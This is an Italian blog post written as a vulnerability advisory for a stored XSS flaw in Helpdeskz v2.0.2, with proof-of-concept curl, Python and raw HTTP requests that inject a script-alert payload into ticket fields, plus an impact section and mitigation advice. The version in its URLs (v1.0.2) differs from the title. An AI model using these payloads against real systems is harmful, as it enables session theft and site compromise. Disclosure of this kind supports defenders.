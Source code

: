 ```yaml
---
layout: post
title: '[webapps] Helpdeskz v2.0.2 - Stored XSS' 
date: 2024-08-23
categories: [security, ransomware]
---
```


# [webapps] Helpdeskz v2.0.2 - Stored XSS

## Introduzione
Questo articolo descrive una vulnerabilità XSS (Cross-Site Scripting) riscontrata nella versione 2.0.2 del software Helpdeskz. Le vulnerabilità XSS consentono a un attaccante di iniettare script dannosi nelle pagine web visualizzate da altri utenti. Questa specifica vulnerabilità è caratterizzata come "Stored XSS", il che significa che il codice dannoso viene permanentemente memorizzato sul server target e viene eseguito ogni volta che un utente visualizza la pagina web vulnerabile.

## Dettagli della Vulnerabilità
La vulnerabilità si manifesta all'interno del modulo di invio dei ticket del software Helpdeskz. Un attaccante può inviare un ticket contenente codice JavaScript malevolo che viene memorizzato nel database del server. Quando un utente successivamente visualizza questo ticket, il codice JavaScript viene eseguito nel browser dell'utente.

## Esempio di Payload Semplice
Il seguente comando `curl` può essere utilizzato per inviare un ticket contenente codice JavaScript malevolo:

```bash
curl 'http://localhost/helpdeskz_v1.0.2/uploads/index.php' --data 'title=<script>alert("XSS");</script>&content=<script>alert("XSS");</script>&submit=Submit'
```

## Conversione in Python del Payload Semplice
Il seguente script Python può essere utilizzato come alternativa al comando `curl` di cui sopra:

```python
import requests

url = "http://localhost/helpdeskz_v1.0.2/uploads/index.php"
data = {
    'title': '<script>alert("XSS");</script>',
    'content': '<script>alert("XSS");</script>',
    'submit': 'Submit'
}
response = requests.post(url, data=data)
```

## Spiegazione Tecnica
Il comando `curl` e lo script Python effettuano una richiesta HTTP POST al server target. Il corpo della richiesta contiene i dati del ticket, tra cui il titolo e il contenuto del ticket, entrambi contenenti codice JavaScript malevolo.

## Procedura per Riprodurre la Vulnerabilità
1. Eseguire il comando `curl` o lo script Python sopra indicato.
2. Aprire il ticket inviato sul server target.
3. Il codice JavaScript iniettato verrà eseguito nel browser.

## Richiesta HTTP
La richiesta HTTP inviata al server è la seguente:

```http
POST /helpdeskz_v1.0.2/uploads/index.php HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 70

title=<script>alert("XSS");</script>&content=<script>alert("XSS");</script>&submit=Submit
```

## Impatto della Vulnerabilità
Questa vulnerabilità può permettere a un attaccante di rubare informazioni sensibili, come i cookie di sessione, permettendogli di impersonare altri utenti. Può anche essere utilizzata per eseguire altre attività malevole, come defacement del sito web o attacchi di phishing.

## Patch e Mitigazioni
Al momento della pubblicazione di questa vulnerabilità, non era disponibile alcuna patch. Tuttavia, i gestori dei sistemi possono mitigare l'impatto di questa vulnerabilità filtrando o disinfettando l'input degli utenti per rimuovere i tag script prima di salvarli nel database.

## Conclusione
Questa vulnerabilità sottolinea l'importanza di implementare controlli di sicurezza adeguati quando si gestiscono input degli utenti in un'applicazione web. È essenziale che gli sviluppatori si impegnino a scrivere codice sicuro che preveda e gestisca adeguatamente le potenziali minacce di sicurezza.

